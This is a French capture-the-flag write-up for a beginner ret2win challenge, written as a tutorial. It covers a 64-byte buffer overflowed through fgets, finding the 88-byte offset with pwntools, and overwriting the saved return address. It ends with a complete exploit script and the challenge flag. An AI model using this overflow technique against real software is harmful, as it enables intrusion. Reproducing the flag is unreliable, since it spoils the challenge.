

# Ret2popacola Write-Up.

L'objectif de ce challenge est la découverte des ret2win en pwn. C'est une méthode d'exploitation assez classique qui permet de bien comprendre le flow d'exécution d'un binaire, mais surtout comment on peut le contrôler :D

## Analyse du challenge
Commençons d'abord par analyser les sources du binaire et son comportement. 

Le programme est un outil de consultation du nombre de ventes de PopaCola de la journée.
Quand on l'exécute, on nous demande un login. Si le login n'est pas le bon, le programme nous refuse l'accès et se termine.
En lisant le code, on voit que le login demandé est "popacola".

En rentrant ce login, le programme nous affiche le nombre de ventes (simulés avec deux random). Rien de bien fou jusque-là.

Cependant, on remarque l'existence d'une fonction "SuperSecretAdminAccess", qui vient ouvrir le flag. Intéressant...


Enfin, on voit que le login est stocké dans le buffer `name` qui a une capacité de 64 caractères. La fonction `fgets` elle vient récupérer l'entrée utilisateur en la considérant d'une taille de 0x100 (256). Que se passe-t-il dans le buffer s'il contient plus de 64 caractères ?

## Un buffer overflow, kesako ?  
En rentrant plus de 64 caractères, nous avons fait un buffer overflow. Nous avons dépassé l'espace mémoire réservé pour le nom de l'utilisateur. De la donnée va être réécrite sur la pile (stack), qui est la partie qui garde en mémoire de nombreuses informations utiles pour notre programme. Dans ces informations, nous pouvons retrouver l'adresse de retour de la fonction après la fin de son exécution ou les adresses de la stack sauvegardée de la fonction main.

C'est là que la fonction SuperSecretAdminAccess nous intéresse. Cette fonction n'est appelée nulle part, comment faire pour y accéder et obtenir le flag ?

Le but du jeu va être de réécrire la valeur du registre `rip` qui est dans la stack et récupérée lors du `ret`. Ainsi, à la fin de l'exécution de la fonction, sellTracker ne retournera pas sur main mais sur la fonction SuperSecretAdminAccess, ce qui nous donne le flag.

## Solution
Un checksec sur le binaire permet de voir plusieurs éléments :
- NX activé, ce qui nous empêche de faire un shellcode
- PIE est désactivé, les fonctions du binaire ont la même adresse à chaque exécution
- Pas de canary, on peut donc blinder la stack sans soucis

Étapes à suivre :
1. Trouver l'offset entre le début du buffer name et le rip stocké.
2. Recuperer l'adresse de la fonction SuperSecretAdminAccess, qui sera toujours la même (PIE désactivée)
3. Écrire notre payload
4. Envoyer notre payload et récupérer le flag !

### 1. Trouver l'offset entre le début du buffer name et le rip stocké
Pour trouver l'offset de réécriture de `rip`, il est courant d'utiliser un cyclic avec pwntools, qui génère une [suite de Bruijn] (https://fr.wikipedia.org/wiki/Suite_de_de_Bruijn).

Avec pwntools d'installé et depuis un terminal interactif Python :
```python
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

On peut ensuite lancer le binaire en local avec `gdb` afin d'envoyer la séquence générée au préalable.
Ici j'utilise [pwndbg] (https://github.com/pwndbg/pwndbg), une surcouche de `gdb` qui permet d'avoir une interface un peu plus sympa.


Le programme crash. On obtient un SIGSEGV :D


1. Le SIGSEGV indique le fameux Segmentation Fault. Ici, le programme essaie de retourner sur une adresse invalide comme `rip` a été réécrit.
2. Pwndbg reconnaît la chaîne de caractères 'waaaxaaayaaa' pour le registre `rsp`. On reconnaît les caractères qui font partie du cyclisme que l'on a rentré. C'est ce qu'on utilise dans `cyclic_find` pour trouver l'offset.

Dans le même terminal Python, on exécute donc :
```python
>>> cyclic_find('waaaxaaayaaa')
88
```
On a trouvé notre offset ! Il est de 88 caractères.

### 2. Récupérer l'adresse de la fonction SuperSecretAdminAccess
Comme on l'a vu dans le checksec, le PIE sur le binaire est désactivé. Les adresses des fonctions du binaire ne changeront donc pas entre deux exécutions.

Comme le binaire est `not stripped`, on peut récupérer facilement les symboles avec `objdump`.
```shell
$ objdump -t ret2popacola | grep "SuperSecretAdminAccess"
00000000004011b6 g     F .text	00000000000000b8              SuperSecretAdminAccess
```

L'adresse est **0x00000000004011b6**.

## Écrire notre payload
Ce script de solve utilise pwntools. Il se connecte en remote sur le Docker fourni :

```python
from pwn import *

def solve():
    # Connexion en remote sur notre hôte local sur le port 4444
    r = remote("localhost","4444") 

    # On met de la donnée inutile pour combler l'espace entre le début de notre buffer et la réécriture de rip 
    payload = b"A" * 88        

    # On utilise la fonction p64 afin de "packed" l'adresse, c’est-à-dire changer l'endianness de l'adresse (on le passe en little endian)
    payload += p64(0x00000000004011b6)

    # Il ne nous reste plus qu'à envoyer notre payload au bon moment, puis de passer en interactive.
    r.sendlineafter(b"Veuillez rentrer votre login pour acceder aux ventes du jour.", payload)
    r.interactive()

if __name__ == "__main__":
    solve()
```
On lance le programme et on obtient l'accès à SuperSecretAdminAccess et au flag :D


# Flag
Le flag est `24HIUT{L3ts_K33p_Pwn1Ng_P0paC01a}`.